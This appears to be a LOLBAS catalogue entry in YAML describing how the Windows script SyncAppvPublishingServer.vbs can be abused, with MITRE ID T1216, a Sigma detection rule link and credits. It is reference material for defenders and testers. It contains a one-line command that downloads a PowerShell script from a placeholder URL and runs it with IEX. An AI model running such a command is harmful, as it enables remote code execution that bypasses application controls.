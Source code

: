 ```yaml
---
Name: Syncappvpublishingserver.vbs
Description: Script used related to app-v and publishing server
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
    Description: Inject PowerShell script code with the provided arguments
    Usecase: Use Powershell host invoked from vbs script
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\SyncAppvPublishingServer.vbs
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_syncappvpublishingserver_vbs_execute_psh.yml
Resources:
  - Link: https://twitter.com/monoxgas/status/895045566090010624
  - Link: https://twitter.com/subTee/status/855738126882316288
Acknowledgement:
  - Person: Nick Landers
    Handle: '@monoxgas'
  - Person: Casey Smith
    Handle: '@subtee'
---
```

